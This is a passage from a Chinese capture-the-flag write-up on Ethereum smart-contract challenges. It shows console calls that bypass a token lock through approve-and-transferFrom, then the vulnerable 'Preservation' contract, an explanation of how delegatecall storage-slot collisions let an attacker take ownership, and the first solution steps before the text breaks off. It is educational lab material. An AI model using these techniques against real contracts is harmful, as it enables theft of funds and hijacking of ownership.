 ```
> [StandardToken.sol合约地址](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/v1.5.0/contracts/token/StandardToken.sol)
```
//increaseApproval， 将资金授权给账户0x887949dfb5aEd5EAD982bDf1a227e9684d270DE，0x887949dfb5aEd5EAD982bDf1a227e9684d270DE是任意一个你可以操作的账户，下一步需要用此账户调用合约
contract.increaseApproval('0x887949dfb5aEd5EAD982bDf1a227e9684d270DE3','1000000000000000000000000')
//用0x887949dfb5aEd5EAD982bDf1a227e9684d270DE3调用合约
contract.transferFrom('0xcfe860f5b2865941d93a3526119b9435cc2ac0b5','0x887949dfb5aEd5EAD982bDf1a227e9684d270DE3','1000000000000000000000000')
```
### 16. Preservation

**题目源码**：
```
pragma solidity ^0.4.23;

contract Preservation {

  // public library contracts 
  address public timeZone1Library;
  address public timeZone2Library;
  address public owner; 
  uint storedTime;
  // Sets the function signature for delegatecall
  bytes4 constant setTimeSignature = bytes4(keccak256("setTime(uint256)"));

  constructor(address _timeZone1LibraryAddress, address _timeZone2LibraryAddress) public {
    timeZone1Library = _timeZone1LibraryAddress; 
    timeZone2Library = _timeZone2LibraryAddress; 
    owner = msg.sender;
  }
 
  // set the time for timezone 1
  function setFirstTime(uint _timeStamp) public {
    timeZone1Library.delegatecall(setTimeSignature, _timeStamp);
  }

  // set the time for timezone 2
  function setSecondTime(uint _timeStamp) public {
    timeZone2Library.delegatecall(setTimeSignature, _timeStamp);
  }
}

// Simple library contract to set the time
contract LibraryContract {

  // stores a timestamp 
  uint storedTime;  

  function setTime(uint _time) public {
    storedTime = _time;
  }
}
```
**题目要求**：修改owner为player

**考点**：delegatecall执行环境，读取和修改storage变量的值时发生的事情。

通过delegatecall读取和修改storage变量的值时，实际修改的是调用合约的变量值，而修改的具体哪个变量是根据被调用合约所被修改的变量所存储在的slot位置决定的。

**思路**：如本题所示，当执行“timeZone1Library.delegatecall(setTimeSignature, _timeStamp)”时，==实际上修改的是Preservation的变量，修改的变量位置是storedTime在LibraryContract合约中的存储位置，也就是slot0==，对应的就是Preservation的timeZone1Library; 同理，setSecondTime也是修改的Preservation的timeZone1Library

**解题步骤**：
1. 创建attack合约
2. 先调用setSecondTime修改timeZone1Library为恶意合约地址
```